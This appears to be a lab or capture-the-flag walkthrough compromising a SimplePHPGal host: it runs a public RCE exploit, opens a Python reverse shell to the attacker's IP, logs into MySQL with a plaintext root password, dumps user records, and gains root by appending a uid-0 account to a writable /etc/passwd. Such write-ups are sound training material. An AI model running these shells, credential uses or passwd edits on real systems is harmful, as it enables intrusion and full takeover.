









# 445 SMB
Found an unusual print$ share

# 80

Website on port 80

So searching for exploits for this we end up with:
https://github.com/beauknowstech/SimplePHPGal-RCE.py
Now using it we didnt get a shell on most ports but port 21 works.
```bash
python3 SimplePHPGal-RCE.py http://192.168.195.58/ 192.168.45.236 21
```

Found 


Then using another shell to get a stable shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.236",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Now conencting to mysql:
```
mysql -h 127.0.0.1 -u root -pMalapropDoffUtilize1337 SimplePHPGal
```
now checking tables:
```
show tables;
select * from users;
```


Now base64 decoding twice:


Now we can use this to ssh:


Then running linpeas we find writeable /etc/passwd:

So adding our own user:
```
openssl passwd 123
```
Now using this hash:
```
echo 'user3:SuIRCvQhtnOd6:0:0:root:/root:/bin/bash' >> /etc/passwd
```


We can switch to our root user:
```
su user3
123
```

